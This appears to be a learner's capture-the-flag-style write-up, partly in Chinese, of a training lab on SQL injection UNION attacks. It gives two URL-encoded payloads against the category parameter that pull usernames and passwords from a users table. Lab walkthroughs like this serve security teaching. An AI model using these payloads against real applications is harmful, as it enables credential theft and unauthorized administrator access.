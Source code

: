 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## SQL injection
* 注入點在 `category`
* 這一題要我們在同一個 column 中可以拿到兩個 column 的資料啦，不過我偷懶沒有查他給的 cheat sheet，不過要一個一個試畢竟我也不知道他到底用了什麼資料庫
* 分別拿兩次就可以了
```
// 拿 username
payload = %27union%20select%20NULL,username%20from%20users%20--%20-
```
```
// 拿 password
payload = %27union%20select%20NULL,password%20from%20users%20--%20-
```